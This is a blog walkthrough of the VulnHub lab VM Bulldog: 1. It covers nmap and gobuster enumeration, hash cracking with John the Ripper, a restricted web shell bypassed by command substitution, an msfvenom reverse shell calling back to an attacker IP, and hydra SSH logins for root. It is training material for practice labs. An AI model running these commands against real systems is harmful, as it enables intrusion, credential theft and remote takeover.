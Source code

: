 ```yaml
---
layout: post
title: "Who Let the Dogs Out?"
category: Walkthrough
tags: [VulnHub, Bulldog]
comments: true
---
```


This post documents the complete walkthrough of Bulldog: 1, a boot2root [VM][1] created by [Nick Frichette][2] and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background
Bulldog Industries recently had its website defaced and owned by the malicious German Shepherd Hack Team. Could this mean there are more vulnerabilities to exploit? Why don't you find out? :) 

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in **bulldog**:

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.36.3
...
PORT     STATE SERVICE REASON         VERSION
23/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|_  256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
80/tcp   open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
8080/tcp open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
```

Let's explore the web service first. This is how the site looked like as rendered by a browser.

![screenshot-1](/assets/images/posts/bulldog-walkthrough/screenshot-1.png)

The HTML source of the landing page as well as its internal link did not provide a clue on how to proceed.

### Directory/File Enumeration

Let's use `gobuster` with `common.txt` from [SecLists][4]{:target='blank'} to enumerate the site and see what we can discover.

```
# gobuster -w /usr/share/seclists/Discovery/Web_Content/common.txt -e -u http://192.168.36.3

Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.36.3/
[+] Threads      : 10
[+] Wordlist     : /usr/share/seclists/Discovery/Web_Content/common.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://192.168.36.3/admin (Status: 301)
http://192.168.36.3/dev (Status: 301)
http://192.168.36.3/robots.txt (Status: 200)
=====================================================
```

The `robots.txt` probably doesn't conform to specifications or it'll will appear in the `nmap` scan. Now, I've two more new pages: **Django Administration** and **Under Development**.

### Under Development Page

This page contained interesting information. There's a link to `/dev/shell`, purportedly a web shell. Under the hood in the HTML source, there were SHA1 password hashes of members from the development team.

![screenshot-2](/assets/images/posts/bulldog-walkthrough/screenshot-2.png)

Let's clean up the hashes and submit to John the Ripper for offline cracking.

```
# curl -s 192.168.36.3/dev/ | sed '49,55!d' | awk -F': ' '{ print $2 }' | sed -r -e 's/(<br>)+<!--/:/' -e 's/-->/:::::/' > hashes.txt && john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
...
nick@bulldogindustries.com:bulldog:::::
sarah@bulldogindustries.com:bulldoglover:::::
```

Thank goodness authentication is required to use the web shell.

![screenshot-3](/assets/images/posts/bulldog-walkthrough/screenshot-3.png)

### Django Site Administration

Let's use one of the credentials `(nick:bulldog)` and see if we can authenticate with the server in order to use the web shell.

![screenshot-4](/assets/images/posts/bulldog-walkthrough/screenshot-4.png)

![screenshot-5](/assets/images/posts/bulldog-walkthrough/screenshot-5.png)

We see that a session with the site has been established. Now, are we able to use the web shell by going to `/dev/shell`?

![screenshot-6](/assets/images/posts/bulldog-walkthrough/screenshot-6.png)

Sweet. However, it appeared that only certain commands were allowed.

### Command Substitution

One of my favorite features in `bash` is [command substitution][5]{:target='_blank'} using backtick (`).

> "Bash performs the expansion by executing command in a subshell environment and replacing the command substitution with the standard output of the command, with any trailing newlines deleted."

![screenshot-7](/assets/images/posts/bulldog-walkthrough/screenshot-7.png)

### Low Privilege Shell

Let's transfer (using `wget`) a single-stage reverse shell payload and then run a reverse shell back to me. I can do that with `msfvenom` and Metasploit multi-handler.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.36.4 LPORT=443 -f elf -o bulldog
```

![screenshot-8](/assets/images/posts/bulldog-walkthrough/screenshot-8.png)

![screenshot-9](/assets/images/posts/bulldog-walkthrough/screenshot-9.png)

![screenshot-10](/assets/images/posts/bulldog-walkthrough/screenshot-10.png)

Boom. A low-privilege shell appeared but let's spawn a pseudo-TTY for better output control.

![screenshot-11](/assets/images/posts/bulldog-walkthrough/screenshot-11.png)

### Privilege Escalation

During enumeration, I found two users: `django` and `bulldogadmin` able to `sudo` as `root`. Unfortunately, I don't have their passwords.

![screenshot-12](/assets/images/posts/bulldog-walkthrough/screenshot-12.png)

![screenshot-13](/assets/images/posts/bulldog-walkthrough/screenshot-13.png)

![screenshot-14](/assets/images/posts/bulldog-walkthrough/screenshot-14.png)

Noticed `.hiddenadmindirectory` in the home directory of `bulldogadmin`?

![screenshot-15](/assets/images/posts/bulldog-walkthrough/screenshot-15.png)

![screenshot-16](/assets/images/posts/bulldog-walkthrough/screenshot-16.png)

![screenshot-17](/assets/images/posts/bulldog-walkthrough/screenshot-17.png)

Seemed like reverse engineering the ELF binary is my ticket to `root`.

### What the ELF?

The first thing to do in reverse engineering is to look for interesting strings and that's exactly what I did.

![screenshot-18](/assets/images/posts/bulldog-walkthrough/screenshot-18.png)

If you look past `"H"`, you'll see "`SUPERultimatePASSWORDyouCANTget`". I'll hit the jackpot if this is the password belonging to any of the users since they can all `sudo` to `root`. Let's find out with `hydra`.

```
# cat users.txt
bulldogadmin
django
root

# hydra -L users.txt -p SUPERultimatePASSWORDyouCANTget -s 23 ssh://192.168.36.3
[23][ssh] host: 192.168.36.3   login: django   password: SUPERultimatePASSWORDyouCANTget
1 of 1 target successfully completed, 1 valid password found
```

![screenshot-19](/assets/images/posts/bulldog-walkthrough/screenshot-19.png)

It's done.

![screenshot-20](/assets/images/posts/bulldog-walkthrough/screenshot-20.png)

:dancer:

### Afterthought

If I have to guess, I'll say the other way to get root is perhaps through the Dirty CoW exploit as hinted in the notice page.

![screenshot-21](/assets/images/posts/bulldog-walkthrough/screenshot-21.png)

Well, to an attacker, a shell is a shell is a shell. Period. :smiling_imp:

[1]: https://www.vulnhub.com/entry/bulldog-1,211/
[2]: https://twitter.com/@frichette_n
[3]: https://www.vulnhub.com
[4]: https://github.com/danielmiessler/SecLists
[5]: https://www.gnu.org/s/bash/manual/html_node/Command-Substitution.html
